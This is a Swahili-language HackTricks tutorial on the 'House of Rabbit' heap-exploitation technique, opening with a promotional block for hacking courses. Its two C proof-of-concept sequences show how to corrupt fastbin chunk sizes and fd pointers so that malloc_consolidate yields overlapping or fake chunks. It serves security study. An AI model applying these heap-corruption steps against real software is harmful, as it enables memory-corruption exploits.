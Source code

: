 # Nyumba ya Sungura

<details>

<summary><strong>Jifunze AWS hacking kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA USAJILI**](https://github.com/sponsors/carlospolop)!
* Pata [**swag rasmi ya PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa kipekee wa [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

### Mahitaji

1. **Uwezo wa kubadilisha kidole cha mbele cha fast bin au ukubwa**: Hii inamaanisha unaweza kubadilisha kidole cha mbele cha kipande katika fastbin au ukubwa wake.
2. **Uwezo wa kuzindua `malloc_consolidate`**: Hii inaweza kufanywa kwa kutenga kipande kikubwa au kufunga kipande cha juu, ambacho hulazimisha rundo kufanya kazi.

### Malengo

1. **Kuunda vipande vinavyolingana**: Ili kuwa na kipande kimoja kifanane na kingine, kuruhusu manipulations zaidi za rundo.
2. **Kufanya vipande vya uwongo**: Kudanganya allocator kutibu kipande cha uwongo kama kipande halali wakati wa shughuli za rundo.

## Hatua za shambulio

### POC 1: Badilisha ukubwa wa kipande cha fast bin

**Lengo**: Unda kipande kinacholingana kwa kubadilisha ukubwa wa kipande cha fastbin.

* **Hatua 1: Tenga Vipande**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x40);  // Allocates another chunk of 0x40 bytes at 0x602050
malloc(0x10);                          // Allocates a small chunk to change the fastbin state
```
* **Hatua ya 2: Fungua Vipande**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
free(chunk2);  // Frees the chunk at 0x602050
```
### Tunaweka huru vipande vyote viwili, tukiviweka kwenye orodha ya fastbin.

* **Hatua ya 3: Badilisha Ukubwa wa Kipande**
```cpp
chunk1[-1] = 0xa1;  // Modify the size of chunk1 to 0xa1 (stored just before the chunk at chunk1[-1])
```
Tunabadilisha metadata ya ukubwa wa `chunk1` kuwa 0xa1. Hii ni hatua muhimu ya kudanganya mpangishaji wakati wa kufanya ujumuishaji.

* **Hatua 4: Chochote `malloc_consolidate`**
```cpp
malloc(0x1000);  // Allocate a large chunk to trigger heap consolidation
```
Kutenga kipande kikubwa kunaanzisha kazi ya `malloc_consolidate`, ikimegesha vipande vidogo kwenye bakuli la haraka. Ukubwa uliobadilishwa wa `chunk1` unasababisha kufunika na `chunk2`.

Baada ya kumegeshwa, `chunk1` inafunika na `chunk2`, ikiruhusu kwa uchimbaji zaidi.

### POC 2: Badilisha kidude cha `fd`

**Lengo**: Unda kipande bandia kwa kubadilisha kidude cha `fd` kwenye bakuli la haraka.

* **Hatua 1: Kutenga Vipande**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x100); // Allocates a chunk of 0x100 bytes at 0x602050
```
**Maelezo**: Tunatenga vipande viwili, kimoja kidogo na kingine kikubwa, ili kuweka kiwango cha rundo kwa ajili ya kipande bandia.

* **Hatua 2: Unda kipande bandia**
```cpp
chunk2[1] = 0x31;  // Fake chunk size 0x30
chunk2[7] = 0x21;  // Next fake chunk
chunk2[11] = 0x21; // Next-next fake chunk
```
### Hatua ya 3: Fungua `chunk1`

Tunachapisha metadata bandia ya kipande ndani ya `chunk2` ili kusimuliza vipande vidogo.
```cpp
free(chunk1);  // Frees the chunk at 0x602000
```
**Maelezo**: Tunafuta `chunk1`, tukiiongeza kwenye orodha ya fastbin.

* **Hatua 4: Badilisha `fd` ya `chunk1`**
```cpp
chunk1[0] = 0x602060;  // Modify the fd of chunk1 to point to the fake chunk within chunk2
```
**Maelezo**: Tunabadilisha kiashiria cha mbele (`fd`) cha `chunk1` ili kielekee kwa kipande chetu bandia ndani ya `chunk2`.

* **Hatua 5: Chochote `malloc_consolidate`**
```cpp
malloc(5000);  // Allocate a large chunk to trigger heap consolidation
```
Kutenga kipande kikubwa tena husababisha `malloc_consolidate`, ambayo huprocess kipande bandia.

Kipande bandia huingizwa kwenye orodha ya fastbin, ikifanya iwe kipande halali kwa uchunguzi zaidi.

### Muhtasari

Mbinu ya **House of Rabbit** inahusisha kubadilisha ukubwa wa kipande cha fast bin ili kuunda vipande vinavyolingana au kudanganya kiashiria cha `fd` ili kuunda vipande bandia. Hii inaruhusu wachomozaji kuunda vipande halali kwenye rundo, kuruhusu aina mbalimbali za uchunguzi. Kuelewa na kufanya mazoezi ya hatua hizi kutaboresha ujuzi wako wa uchunguzi wa rundo.
